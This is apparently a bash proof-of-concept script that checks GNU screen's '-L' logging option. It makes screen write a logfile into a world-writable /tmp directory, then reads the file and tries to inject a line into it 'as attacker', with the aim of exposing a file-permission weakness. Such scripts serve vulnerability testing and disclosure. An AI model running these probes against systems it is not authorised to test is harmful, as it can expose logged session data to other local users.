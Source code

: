 # Attacker controlled directory
ATTACKER_DIR="/tmp/evil_dir"
LOGFILE_NAME="logfile"
LOGFILE_PATH="$ATTACKER_DIR/$LOGFILE_NAME"

# Cleanup previous artifacts
rm -rf "$ATTACKER_DIR"

# Create attacker controlled directory
mkdir -p "$ATTACKER_DIR"
chmod 777 "$ATTACKER_DIR"

# Remove any existing logfile
rm -f "$LOGFILE_PATH"

echo "[+] Running vulnerable screen with '-L $LOGFILE_PATH' option"
/usr/bin/screen -L "$LOGFILE_PATH" -d -m sleep 1

# Wait for screen to write to logfile
sleep 2

# Show the permissions and content of the logfile created

echo "[+] Logfile permissions:"
ls -l "$LOGFILE_PATH"

echo "[+] Reading logfile content as attacker"
cat "$LOGFILE_PATH"

# Attempt to write to logfile (expected to fail)

echo "[+] Attempting to write to logfile as attacker (should fail)"
echo "Attacker injected line" >> "$LOGFILE_PATH" 2>/dev/null
if [ $? -eq 0 ]; then
  echo "[!] Unexpectedly succeeded in writing to logfile"
else
  echo "[+] Write permission denied as expected"
fi

# Cleanup
rm -rf "$ATTACKER_DIR"

echo "[+] Cleanup done."
